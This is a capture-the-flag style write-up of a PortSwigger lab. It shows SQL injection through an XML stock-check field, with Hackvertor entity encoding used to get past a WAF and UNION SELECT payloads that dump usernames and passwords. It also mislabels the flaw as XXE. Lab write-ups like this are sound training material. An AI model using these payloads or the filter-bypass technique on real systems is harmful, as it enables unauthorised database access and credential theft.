

# Write-up: SQL injection with filter bypass via XML encoding
Lab-Link: <https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding>
Difficulty: PRACTITIONER  
 

## Lab description


## Steps

### Enumeration

We can see that their is XML format when we check the stock of any product. We can try to manipulate this XML parser to reveal the users table.
If we manupulate the `<storeId>2</storeId>` or `<storeId>2+1</storeId>`, we can see the stock of the other store. This confirms the XXE vulnerability.

We can find the number of columns using `<storeId>1 UNION SELECT NULL</storeId>`, which flags our query as "Attack Detected". So, we need bypass this WAF.

### Exploitation

We can use Hackvertor extension in Burpsuite to encode our payload. We can use `dec_entities` encode method.
```xml
<storeId>
    <@dec_entities>
        1 UNION SELECT NULL
    </@dec_entities>
</storeId>
```

This results in positive response showing that we have successfully bypassed WAF and also that their is 1 column.
So we can use string concatenation to get the username and password of users.
```xml
<storeId>
    <@dec_entities>
        1 UNION SELECT username || '~' || password FROM users
    </@dec_entities>
</storeId>
```


This reveals that the password for user `administrator` is `tnlan5zkbgcsc4mif2gw`.

Hence, the lab is sovled.

